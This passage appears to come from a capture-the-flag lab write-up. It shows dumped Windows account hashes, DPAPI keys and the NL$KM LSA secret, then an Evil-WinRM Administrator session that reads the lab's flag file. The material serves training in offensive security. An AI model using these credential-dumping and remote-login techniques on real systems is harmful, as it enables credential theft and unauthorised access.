Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:7025790b5bb6b1c87aff52f9fd307ce1:::
joe:1001:aad3b435b51404eeaad3b435b51404ee:4568151a41ac1b353f40f4dc7f90f19d:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x74fc7568097fe15e438782383249a92a395e18d5
dpapi_userkey:0x3fc57e5af5f687620a96c594694dca9c1dd382d3
[*] NL$KM 
 0000   0C EF 72 8A 43 7E B4 55  55 BE ED 92 C6 D9 01 11   ..r.C~.UU.......
 0010   DA 01 E1 C2 E3 83 93 D6  A9 B3 75 42 64 F6 43 86   ..........uBd.C.
 0020   4B 57 29 42 05 FF 94 D7  9E A9 44 9A DE 97 89 FB   KW)B......D.....
 0030   9E 0E A6 86 DB C9 2E 44  6E A7 08 29 D4 F4 FD 66   .......Dn..)...f
NL$KM:0cef728a437eb45555beed92c6d90111da01e1c2e38393d6a9b3754264f643864b57294205ff94d79ea9449ade9789fb9e0ea686dbc92e446ea70829d4f4fd66
[*] Cleaning up...
```

And lastly get the needed flag:

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/18/2020   2:19 PM             27 flag.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat flag.txt
OFFSHORE{b1ts_pl3ase_yall!}
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

I feel we can wrap it up and move forward now.

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;